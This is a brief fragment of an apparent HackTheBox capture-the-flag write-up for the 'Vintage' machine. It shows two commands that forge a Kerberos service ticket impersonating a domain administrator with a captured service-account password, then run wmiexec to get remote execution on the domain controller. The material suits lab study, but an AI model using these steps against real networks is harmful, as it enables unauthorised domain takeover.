 {% code overflow="wrap" %}
```bash
impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne' 2>/dev/mull

KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache wmiexec.py dc01.vintage.htb -k -no-pass
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2757_vmware_C4O6dGBMBq.png" alt=""><figcaption></figcaption></figure>
